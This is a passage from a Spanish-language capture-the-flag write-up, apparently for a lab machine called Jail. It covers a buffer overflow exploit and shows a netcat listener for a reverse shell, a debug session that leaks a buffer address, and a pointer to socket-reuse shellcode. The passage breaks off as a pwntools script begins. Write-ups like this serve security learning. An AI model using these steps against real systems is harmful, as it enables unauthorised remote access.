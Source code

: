 Ahora testeamos el script

1. Lanzamos el jail

    ```bash
    ./jail
    ```

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Lanzamos el script en python

    ```bash
    python3 exploit.py
    ```

En este caso no funcciona y tito nos adelanta que el problema viene que de vez en cuando, el espacio del shellcode sobrepasa el limite de caracteres que podemos injectar, 
o mejor dicho es demasiado grande. Esta limitacion puede ser bypasseada por una tecnica llamada **reuse addr** explicada en la web de [rastating](https://rastating.github.io/using-socket-reuse-to-exploit-vulnserver/).
La tecnica consiste en utilizar methodos **send** o **recv** del socket de coneccion para ganar espacio para el shellcode.

Si buscamos por shellcode re-use en [exploit-db](https://www.exploit-db.com/shellcodes/34060), podemos encontrar shellcode que crearian un `/bin/bash`

Modificamos el shellcode del exploit.py y ganamos accesso a la maquina victima

## Vuln exploit & Gaining Access {-}

### Ganando accesso con el bufferoverflow {-}

1. Lanzamos el debug mode para recuperar la direccion del buffer

    ```bash
    nc 10.10.10.34 7411
    OK Ready. Send USER command.
    DEBUG
    OK DEBUG mode on.
    USER admin
    OK Send PASS command.
    PASS admin
    Debug: userpass buffer @ 0xffffd140
    ```

1. Modificamos el script en python

    ```python
    #!/usr/bin/python3

    from pwn import *
